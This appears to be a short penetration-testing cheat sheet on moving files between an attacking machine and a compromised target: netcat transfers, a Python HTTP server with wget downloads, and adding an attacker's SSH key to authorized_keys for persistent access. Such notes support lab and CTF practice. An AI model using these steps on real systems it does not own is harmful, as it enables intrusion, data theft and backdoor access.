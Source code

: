 # Transfering files


### Netcat
The easiest way normally is to use netcat. 

If you can't have an interactive shell it might be risky to start listening on a on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do ctr-c because  that will destroy your sessions.

So instead you can connect from the target machine like this.

On attacking machine:
```
nc -lvp 4444 < file
```
On target machine:

```
nc 192.168.1.102 4444 > file
```

You can of course also do it the other way around:

So on the victim-machine we run nc like this:
```
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```
nc 192.168.1.103 < enum.sh
```

I have sometimes recieved this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```

### SSH
If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user dir you can find the hidden `.ssh` files by typing `ls -la`.
Then you need to do two things.

1. Create a new keypair.
You do that with: `ssh-keygen -t rsa -C "your_email@example.com"` then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: `

This will create two files, one called *nameOfMyKey* and another called *nameOfMyKey_pub*. The one with the *_pub* is of course your public key. And the other key is your private.

2. Add your public key to authorized_keys.
Now you copy the content of *nameOfMyKey_pub*. 
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized_keys. Like this 
```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

3. Log in.
Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```


### Wget

### Python server

Fire up a simple server on the attacking box. This command will make the entire folder available.
```
python -m SimpleHTTPServer 9999
```

Now you can download any file with curl or wget
```
wget 192.168.1.102:9999/file.txt
```

###ftp


